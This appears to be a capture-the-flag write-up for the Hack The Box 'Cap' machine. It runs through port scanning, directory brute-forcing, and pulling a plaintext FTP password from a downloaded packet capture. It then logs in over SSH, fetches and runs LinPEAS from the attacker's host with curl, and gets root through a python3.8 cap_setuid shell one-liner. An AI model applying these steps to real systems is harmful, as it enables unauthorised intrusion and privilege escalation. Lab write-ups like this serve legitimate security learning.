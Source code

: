 ## ------------>> Cap <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.245 -p-
-----

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 06:07 UTC
    Stats: 0:15:00 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
    NSE Timing: About 99.51% done; ETC: 06:22 (0:00:00 remaining)
    Nmap scan report for 10.10.10.245
    Host is up (0.30s latency).
    Not shown: 65521 closed ports
    PORT      STATE    SERVICE          VERSION
    21/tcp    open     ftp              vsftpd 3.0.3
    22/tcp    open     ssh              OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp    open     http             gunicorn
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:59 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:52 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:53 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: HEAD, GET, OPTIONS
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    |_http-title: Security Dashboard
    10000/tcp filtered snet-sensor-mgmt
    14568/tcp filtered unknown
    23192/tcp filtered unknown
    27188/tcp filtered unknown
    30770/tcp filtered unknown
    31626/tcp filtered unknown
    36496/tcp filtered unknown
    38717/tcp filtered unknown
    42666/tcp filtered unknown
    58716/tcp filtered unknown
    65119/tcp filtered unknown

// Nvigatin to http://10.10.10.245/ , we presented with security deshboard that possibly monitor the network (kind of SIEM)

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/1.png)

// Lets search some directories with [FeroxBuster](https://github.com/epi052/feroxbuster) tool by epi052.

    $ ./feroxbuster -u http://10.10.10.245/ -w /usr/share/dirb/wordlists/big.txt -t 100
-------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.245/
     🚀  Threads               │ 100
     📖  Wordlist              │ /usr/share/dirb/wordlists/big.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    302        4l       24w      208c http://10.10.10.245/data
    302        4l       24w      220c http://10.10.10.245/capture
    200      355l     1055w    17450c http://10.10.10.245/ip
    200      547l     2981w    40784c http://10.10.10.245/netstat
    [####################] - 33s    20468/20468   0s      found:4       errors:0      
    [####################] - 33s    20468/20468   615/s   http://10.10.10.245/

// Navigating to http://10.10.10.245/data redirects us to http://10.10.10.245/data/1 

// And its the same direction when clicking the 'Security Snapshoot' tab.

// As written that options enables to capture packages on the network for 5sec.

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/2.png)

// Lets try to Brute Force the directories with BurpSuite Intruder

// First make wordlist with 'crunch' (filters(1 3)-from 1 digit to 3, containt only '0123456789')

    $ crunch 1 3 0123456789 > 100.txt
-----
![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/3.png)
![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/4.png)

// Focus on 200 status we get from the attack our result: 0, 1, 2, 4, 5, 11, 12, 14, 15

// Navigate to all camptures, the one waz exluded lead me to http://10.10.10.245/data/0 , and download the capture

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/5.png)

// Since the file is .pcap we can open it with WireShark , Filter (Ctrl+f , search: 'String' : "pass" )

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Cap/6.png)

// We found FTP packet with Password !

    PASS Buck3tH4TF0RM3!

// Lets try connect to SSH since we got ssh service open the user 'nathan' from the website and the password

    nathan@cap:~$ id
    uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

// It worked !!

// And we got user flag!

    nathan@cap:~$ cat user.txt
    793451.........................


### ---------Privilleges Escalation----------

// First lets run [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)(By carlospolop) PrivEsc Tool for linux to enumerate our options.

// Upload LinPEAS via python http server

    $ python3 -m http.server 1445
    
// now Download the file on target with curl

    nathan@cap:~$ curl http://10.10.17.8:1445/linpeas.sh --output linpeas.sh

      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  445k  100  445k    0     0   186k      0  0:00:02  0:00:02 --:--:--  185k

    nathan@cap:~$ chmod +x linpeas.sh 
    nathan@cap:~$ ./linpeas.sh 

.....

    ╔══════════╣ Capabilities

    Files with capabilities (limited to 50):
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

.....

// We can see that we have python3.8 installed on system

// Check 

    nathan@cap:~$ which python3.8
    /usr/bin/python3.8

// Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) Python Capabilities

// From GTFBins: """ If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set,

    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

// it can be used as a backdoor to maintain privileged access by manipulating its own process UID """

    nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # whoami
    root

// And we got flag !!

    # cat /root/root.txt
    3f1c275015b75f596238c1085ccedd98



